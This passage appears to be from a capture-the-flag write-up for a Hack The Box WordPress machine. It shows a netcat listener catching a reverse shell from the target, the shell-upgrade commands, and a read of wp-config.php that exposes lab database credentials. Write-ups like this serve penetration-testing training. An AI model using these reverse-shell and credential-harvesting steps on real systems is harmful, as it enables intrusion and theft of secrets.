 We set up a ncat listener on the port we specified and start our `sendstuff.py`.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

```
$ python sendstuff.py
[+] Trying to bind to :: on port 20053: Done
[+] Waiting for connections on :::20053: Got connection from ::ffff:10.129.228.82 on port 47898
Key is: 68
```

Shortly after sending the request in repeater again we get a reverse shell back on our listener which we upgrade using script since python is not available.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.228.82.
Ncat: Connection from 10.129.228.82:45954.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@wordpress:/var/www/html$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@wordpress:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@wordpress:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@wordpress:/var/www/html$ stty rows 55 cols 236
```

## Database

In the wordpress docker container we find database credentials for the running wordpress installation.

```
www-data@wordpress:/var/www/html$ cat wp-config.php
<?php

...[snip]...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', 'OnlyTheBestSecretsGoInShellScripts' );

/** MySQL hostname */
define( 'DB_HOST', 'mysql.toby.htb' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

```
